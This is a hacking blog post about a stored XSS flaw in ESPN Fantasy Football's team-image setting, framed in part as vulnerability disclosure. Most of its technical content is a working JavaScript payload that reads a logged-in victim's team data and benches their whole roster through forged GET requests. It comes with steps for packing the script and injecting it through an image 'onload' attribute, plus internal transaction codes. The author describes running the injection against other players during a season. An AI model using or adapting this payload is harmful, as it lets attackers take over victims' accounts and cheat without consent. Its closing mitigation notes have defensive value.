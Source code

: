 title: ESPN Fantasy Football - The Complete Attack
publish: True
categories: [hacking]

I have run an ESPN Fantasy Football League every year since the software was available and am a huge fan of the ESPN Fantasy Football experience. However, last year I came across a series of vulnerabilities in the FFB software which basically give an attacker full control of opponent, and other league, teams. Very few people know of the research I was conducting as I was beginning the disclosure process with ESPN.com's web developers. Today, to my complete surprise, I was made aware of these 2 articles:

<!-- READMORE -->

[http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/](http://www.theregister.co.uk/2010/09/22/espn_fantasy_football_cheating/)  
[http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/](http://xs-sniper.com/blog/2010/09/22/put-me-in-coach/comment-page-1/)

While xssniper rightfully gets the credit for the discovery, as he was quicker to the trigger than I, he missed something in his research which greatly enhances this attack. There is a stored XSS vulnerability in the team image setting which allows an attacker to store a malicious script on the server and completely automates the roster attacks for anyone that is subjected to the team image. ESPN does validate the input by removing '&lt;' and '&gt;' from the input, but what it doesn't do is limit the length of the input. Therefore, you can write the script in its entirety and inject it into the input field. The code that I have developed as a POC also works across leagues. Come back soon as I will be posting screenshots and POC code when I can get back to my lab.

ENJOY!

UPDATE: Note to self, take screenshots prior to disclosure of vulnerabilities. In my own defense, I was caught completely off guard by the disclosure so...

[![](/static/images/posts/oops.png)](/static/images/posts/oops.png)

Since i'm limited in the amount of pictures I can show at this point, i'll do my best to explain the process.

### Discovery:

It all started at DEFCON 17. I had spent the majority of my time in the Web App Security track and really enjoyed the concepts of web application testing. As we all know, DEFCON is in late July / early August which was also about the time I typically set up my FFB league for the year. As I was editing my team settings, I saw that you could set a custom image in the form of a url. Since the image is then shown back to you on every page you visit within the league from that point forward, I figured there was some serious potential for a stored XSS attack there. Looking at the code, I noticed that all it did was take the url you submit, and throw it into the 'src' attribute of an image tag. In my first attempt to exploit, i filled the image tag with arbitrary data and appended a script tag to the closed image tag. To ESPN's credit, they actually validated the input and filtered out all '&lt;' and '&gt;'. Therefore, the script tag didn't work. I'd have to exploit via the image tag. Very easy. There are several events in an image that allows you to run javascript, 'onerror' and 'onload'. As you can see from my demo last year, I initially went with the 'onerror' event because I wanted to be completely obvious in testing. ESPN did not validate and filter out any javascript code, so the exploitation worked perfectly. For practical implementation, I went with the 'onload' event, loading an actual team image, and running the script upon a successful load. I had some fun with this over the season.

### Exploitation:

My favorite implementation was a script that prompted other players viewing my team if they were my opponent that week. If they clicked 'yes', then the script went through a series or random "trash talking" phrases. If they clicked 'no', then they were forward to my team page. Harmless really. As I began to look more into the FFB software, I began to notice the same parameter issues that xssniper pointed out in his blog. So a few months ago, I wrote a script which uses the stored XSS vulnerability to parse all of the required parameters from the visiting players browser and executes any series of evil things based upon those params. The code below first determines whether the visiting player is logged in or not. If they are logged in, it parses out the 'teamId', makes an AJAX call for their team page, parses out all of the 'playerId's, then loops through and benches every player using a dummy javascript image request. Basically, on gameday, when my opponent launches the scoreboard, their entire team is benched and they are unable to score any points. XSS FTW... literally!!!

``` javascript
function unique(a) {
  var r = new Array();
  o:for(var i = 0, n = a.length; i &lt; n; i++) {
    for(var x = 0, y = r.length; x &lt; y; x++) {
      if(r[x]==a[i]) {
        continue o;
      }
    }
    r[r.length] = a[i];
  }
  return r;
}
var pagesrc = document.documentElement.innerHTML;
var score_period;
var league_id;
var team_id;
var team_url;
var bench_url;
var player_ids = null;
var patt_pid = /(playerId=).([\d]+).\s/g;
var patt_tid = /([\d]+)/g;
var patt_spid = /currentScoringPeriodId:\s(\d+),/g;
var patt_lid = /leagueId:\s(\d+),/g;
if (pagesrc.search("My Fantasy Teams")!=-1) {
  //get currentScoringPeriodId
  score_period = patt_spid.exec(pagesrc);
  score_period = score_period[1];
  //get leagueId
  league_id = patt_lid.exec(pagesrc);
  league_id = league_id[1];
  //get teamId
  pagesrc = pagesrc.substr(pagesrc.indexOf("My Fantasy Teams"),400);
  team_id = pagesrc.substr(pagesrc.indexOf("teamId=")+7);
  team_id = patt_tid.exec(team_id);
  team_id = team_id[1];
  team_url = "http://games.espn.go.com/ffl/clubhouse?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;seasonId=2010";
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open("GET", team_url, true);
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      pagesrc = xmlhttp.responseText;
      player_ids_clean = new Array();
      var i = 0;
      while (player_ids = patt_pid.exec(pagesrc)) {
        player_ids_clean[i] = player_ids[2];
        i += 1;
      }
      player_ids_clean = unique(player_ids_clean);
      for (i=0;i&lt;=15;i++) {
        bench_url = "http://games.espn.go.com/ffl/pnc/saveRoster?leagueId=" + league_id + "&amp;teamId=" + team_id + "&amp;scoringPeriodId=" + score_period + "&amp;returnSm=false&amp;trans=1_" + player_ids_clean[i] + "_0_20";
        img = new Image();
        img.src = bench_url;
      }
    }
  };
  xmlhttp.send(null);
}
```

Script usage:

1. Compress with [http://dean.edwards.name/packer/](http://dean.edwards.name/packer/)
2. Copy compressed code and paste into notepad
3. Use notpad to replace all " with '
4. Append result from notepad to `http://[image url]" onload="`

The script is seen as coming from espn, so same origin policy applies and the script is allowed to run. Also, NoScript doesn't help unless you are blocking globally which ruins the espn.com experience.

Other information I was able to discover:

transType table:

```
1=Move
2=Add
3=Drop
```

Position table:

```
0=QB
1=Not on Roster
2=RB1/2
3=RB/WR
4=WR1/2
5=TE
16=D
17=K
20=BENCH
```

ADD Player:

```
transType_playerId_?_?_startPos?_endPos
ex. 2_11390_-1_1001_1_20
```

MOVE Player:

```
transType_playerId_startPos_endPos
ex. 1_1753_0_20
```

DROP Player:

```
transType_playerId_teamId/scoringPeriod?_Position_?_?
ex. 3_1753_1_2_-1_1002
```

Bottom-line Findings and Mitigation:

1. Input box allows strings of any length for input. Bad idea. Limit input.
2. When done for real, there is a confirmation button which issues a POST. However, the server side function will accept a GET, which makes this attack much easier. If they accepted POST only, then we would have to use additional resources to create the attack. Much easier to leverage a session through GET than it is to pass authentication tokens via POST.
3. Some code validation is done, but not enough. May prevent referencing the script from another location, but since it is injectible through 'onerror' and 'onload', and input is unlimited, who cares.
